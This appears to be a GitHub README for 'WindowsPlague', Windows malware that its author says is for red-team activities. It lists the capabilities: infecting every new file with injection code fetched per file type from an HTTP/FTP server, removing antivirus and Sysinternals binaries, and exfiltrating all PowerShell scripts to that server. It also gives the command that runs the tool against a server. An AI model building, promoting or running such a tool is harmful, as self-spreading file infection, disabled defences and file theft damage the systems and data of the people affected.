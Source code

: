 # PlagueWindows

![logo](https://raw.githubusercontent.com/M507/WindowsPlague/master/Fullp.png)

WindowsPlague is Windows Malware built for Red-Team activities. 

### Futures:
----------
* Infects every new file in the system.
* Customized injections for each file.
* Quick removal for any antivirus.
* Quick removal for all Sysinternals binaries.
* Collects all ps1 files and transfers them to FTP server, to analyse.

### How does it work?
----------
It needs a server that must have:

| File name |          Description         |
|:---------:|:----------------------------:|
|  Ips1.dll | for Powershell files.        |
|  Iasp.dll | for asp and aspx files.      |
|  Ibat.dll | for Batch files.             |
|  Iphp.dll | for PHP files.               |
|  Itxt.dll | for txt files.               |
| antiu.dll | for all prohibited keywords. |


Each dll file should have the injection code for each type of file.
Thus, each PHP file will be injected by the contact of Iphp.dll.

For example, If you do not want to inject txt files, do write anything in Itxt.dll, and this way it will not inject anything in txt files. But Itxt.dll must exist in the HTTP/FTP server.

### Run
----------
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Mohd> WindowsPlague.exe <HTTP/FTP server>
```

<HTTP/FTP server> Is needed so that the WindowsPlague can download all the .dll files from and whenever it finds a ps1 file sends it to <HTTP/FTP server>. 
